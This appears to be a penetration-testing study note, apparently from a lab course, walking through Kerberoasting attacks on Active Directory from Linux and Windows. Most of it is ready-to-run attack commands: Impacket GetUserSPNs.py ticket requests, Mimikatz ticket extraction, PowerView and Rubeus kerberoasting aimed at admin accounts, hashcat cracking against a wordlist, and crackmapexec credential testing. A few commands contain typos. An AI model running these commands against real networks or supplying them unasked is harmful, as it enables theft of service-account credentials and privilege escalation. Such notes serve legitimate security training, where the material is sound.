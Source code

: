 --- ---

<h2>Kerberoasting From Linux</h2>

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as NT AUTHORITY\LOCAL SERVICE. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

Performing the Attack:
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using runas /netonly.

Tools Used:
- Impacket’s GetUserSPNs.py from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, Rubeus, and other PowerShell scripts.

Steps:
1. List SPN Accounts with GetUserSPNs.py
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend
```

2. Pull down all the TGS tickets for offline cracking using -request flag:
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend -request
```

3. You can also target one specific account (sqldev in this example):
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend -request -user XXX
```

4. For offline cracking, it's good to add -outputfile at the end:
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

5. Crack the ticket with hashcat:
```
hashcat -m 13100 <file_name> /usr/share/wordlists/rockyou.txt
```

6. Test authentication against the Domain Controller:
```
sudo crackmapexec smb <ip_of_dc> -u <user> -p <password>
```

---

<h2>Kerberoasting From Windows</h2>

Manual Method:
1. Run this command with "setspn.exe"
```
setspn.exe -Q */*
```
	- Focus on User Accounts (not computer accounts)

2. Use Powershell to request TGS ticket for a single user to be stored in memory
```
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object
System.IdentityModel.Tokens.KerberosRequestorSecurityToken -
ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

- The Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
- System.IdentityModel is a namespace that contains different classes for building security token services
- We'll then use the New-Object cmdlet to create an instance of a .NET Framework object
- We'll use the System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

3. Use Mimikatz to extract the ticket from memory
![[Pasted image 20221225214355.png]]
If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files. Depending on our position on the
network and if we can easily move files to our attack host, this can be
easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.

4. Remove new lines and white spaces
```
echo "<base64 blob>" | tr -d \\n5
```

5. Convert file back to .kirbi
```
cat encoded_file | base64 -d > sqldev.kirbi
```

6. Using this version of kirbi2john.py , extract the Kerberos ticket
```
python2.7 kirbi2john.py sqldev.kirbi
```

7. Modify the crack_file for Hashcat
```
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

8. Crack the hash with hashcat
```
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```


---> Automated/Tool Based Route

PowerView
1. Use PowerView to Extract TGS Tickets
```
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
	- From here, we can target a specific user

2. Using PowerView to Target a Specific User
```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

3. Export all tickets to a CSV File for offline processing
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```


Rubeus
Things Rubeus can do:
- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

1. Gather stats
```
.\Rubeus.exe kerberoast /stats
```

2. Specify admin acounts (and use nowrap to make it easier to crack)
```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
